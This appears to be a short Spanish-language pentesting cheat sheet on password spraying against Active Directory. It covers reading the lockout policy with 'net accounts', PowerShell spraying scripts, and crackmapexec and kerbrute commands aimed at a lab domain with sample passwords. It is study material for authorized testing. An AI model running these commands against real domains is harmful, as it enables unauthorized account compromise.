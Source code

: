 # Desde windows
#### Vemos las password policy para ver cuántos intentos tenemos

    net accounts

Las columnas importantes son:

- Lockout threshhold (nos dice cuantos intentos fallidos tenemos)
- Lockout duration (cuánto tiempo dura el blockeo)
- lockout observation window (cuando se renuevan a 0 los intentos fallidos)

### DomainPaswordSpray:

De manera automática va a generar una lista de usuarios del AD, ver las políticas de pass y quitar los users que están a un paso de quedar bloqueados

    Import-Module .\DomainPasswordSpray.ps1
    Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

### Spray-Passwords

    .\Spray-Passwords.ps1 -Pass Nexus123!

Podemos usar la flag -Admin para que solo pruebe con usuarios administradores.


# Desde linux

### Crackmapexec

    crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

### Kerbrute

    kerbrute passwordspray -d corp.com usernames.txt "Nexus123!"
